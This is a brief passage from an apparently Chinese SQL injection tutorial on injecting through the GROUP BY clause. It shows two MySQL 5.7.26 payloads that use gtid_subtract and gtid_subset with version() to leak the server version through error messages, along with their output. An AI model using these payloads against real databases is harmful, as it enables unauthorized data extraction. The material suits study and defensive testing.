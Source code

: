 ![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161740592.png)

#### GTID报错

mysql 5.7.26上成功了

```sql
# mysql 5.7.26
mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,(gtid_subtract(version(),1));
ERROR 1772 (HY000): Malformed GTID set specification &#39;5.7.26&#39;.
mysql&gt; select * from users where username like &#39;admin%&#39; group by users.id,(gtid_subset(version(),1));
ERROR 1772 (HY000): Malformed GTID set specification &#39;5.7.26&#39;.
```

![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161740359.png)
